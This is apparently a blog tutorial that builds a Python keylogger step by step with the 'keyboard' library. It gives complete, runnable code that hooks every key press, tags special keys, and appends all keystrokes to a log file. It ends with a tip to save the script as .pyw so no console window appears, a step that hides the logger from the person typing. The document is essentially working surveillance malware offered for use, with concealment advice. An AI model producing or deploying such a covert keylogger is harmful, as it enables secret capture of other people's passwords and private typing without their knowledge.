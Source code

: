 ```yaml
---
title: Designing A Simple Keylogger In Python
description: A tutorial which teaches you how to develop a simple keylogger in Python. Keyloggers are applications which are used to log keys when typed, naturally, keyloggers are not illegal unless used unlawful purposes
category: Programming
image: https://ik.imagekit.io/kudadam/blog/designing_a_keylogger_in_python/hero.jpg
excerpt: With Python, you can make a keylogger which will log the keypress of the keyboard and save the contents to a file
keywords:
  - keylogger
  - keylogging in python
  - python keylogger
tags:
  - python
date: 2021-04-24
---
```


> **Keystroke logging**, often referred to as **keylogging** or **keyboard capturing**, is the action of recording (logging) the keys struck on a keyboard, [\[1\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-1) typically covertly, so that a person using the keyboard is unaware that their actions are being monitored. Data can then be retrieved by the person operating the logging program. A **keystroke recorder** or **keylogger** can be either software or [hardware](https://en.wikipedia.org/wiki/Computer_hardware).
>
> ~ [Wikipedia](https://en.wikipedia.org/wiki/Keystroke_logging) ~

<p class="intro">
The above context is extracted from Wikipedia and it explains what a keylogger is and what it does. Well, I hope most of you know what a keylogger is. Keyloggers are in two forms, software and hardware but the one we are going to be creating today is the software form of a keylogger. It is going to listen to all the key strokes and log them to a file. Cool right?
</p>

Before we start, you need to be conversant with the python programming language, it is what we are going to use in this tutorial. Let's get started.

## Installing the required modules

We are going to use the [keyboard](https://pypi.org/project/keyboard/) module for the keylogger. To install it, open your terminal type in `pip install keyboard`. If no error occured, you are good to go.

After that, open a new python file and let's start coding :dark_sunglasses:

## Creating the logger function

```python
import keyboard #The keyboard module

def logger(event):
	print(event.name)

keyboard.on_press(logger)
keyboard.wait()
```

I can say we are done, maybe above 50% done. Let me explain the code; on the first line, we imported the `keyboard` module. Then we defined our `logger(event)` function, it takes `event` as parameter and then it print's it's `.name` out. Then to the next line, we assigned the `logger` function as a parameter to the `keyboard.on_press` method. The `keyboard.on_press` method takes a function as parameter and passes an event to it. Then to the last line, the `keyboard.wait` makes the program run without closing, it acts like a while loop.

If we are to run our code in the terminal, it runs successfully without any errors. However, there is a problem, try typing this sentence after activating the logger `"am a hacker"`.
<img class="Sirv" src="https://ik.imagekit.io/kudadam/blog/designing_a_keylogger_in_python/before_filter.gif" alt="" />

We really might not see the effect because, when the program is ran on the terminal, each character is printed on a new line but if the results were stored in a file, this is how it will look.

<img class="Sirv" src="https://ik.imagekit.io/kudadam/blog/designing_a_keylogger_in_python/before_filter_txt.png" alt="" />

You might be confused, let me explain, when special keys are pressed, their names are returned and thus it makes it difficult for us to know if it was a character or special key. For example, if a user presses <kbd>space</kbd>, it will print out "space" or if <kbd>enter</kbd>, it will print out "enter", when this data is appended to a file, it just adds up to the letters and makes it difficult for us to know whether it was a special key or not.

## Solving the special key problem

Fortunately, there is a solution to this problem, the only thing we need to do is find a way to mark special keys so we will be able to differentiate between the two. To do so, we create another function called `filter(char)` which will filter the results before writing it to a file. It takes a character as parameter and surround the `char` with `[]` if it is a special key else, it will just go ahead and write it to a file.

```python
def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char
```

Well, this new code just popped into my head :laughing: , the first time I made the `filter` function, it was like this.

<img class="Sirv" src="https://ik.imagekit.io/kudadam/blog/designing_a_keylogger_in_python/first_filter_function.png" alt="" />

This function above was 98 lines, this was because, I hard-coded every key inside my function, but now, I use a simple logic for the filter function. if we are to look at all the "special keys", we will find out that the length of their name is more than one whereas the length of normal characters or letters is one. So in our new `filter` function, we first checked if the `char == 'space'`, we then return `" "` if true. Then on the next line, we check if the length of the `char` is greater than one, if it is, then it means it is a special key so we wrap `[]`around it. else, we just return the `char`. Now our keylogger logs the characters much better.

```python
import keyboard #The keyboard module

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	print(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

Now, we are 95% done, our keylogger works as expected but it's not logging to any file. It's only writing to stdout. In order to make a real keylogger, we need to log the output to a file.

## Logging data to a file

The final step is to create a function which will write the data to a file.

```python
import keyboard #The keyboard module

def writer(data):
    with open("logs.txt","a") as file:
        file.write(data)

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	writer(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

We created a function called `writer` which takes `data` as parameter, it then writes the data to a file named "logs.txt", the file is going to be located in the directory as the python file.

Let's have a look at our `logger` function again, we called the `writer` function and we passed the `event.name` to it but we wrapped it with the `filter` function to filter it and that's our keylogger. just run your python file and you are good to go

**Tip:** You can hide the console from popping up if you save your python file with a .pyw extension
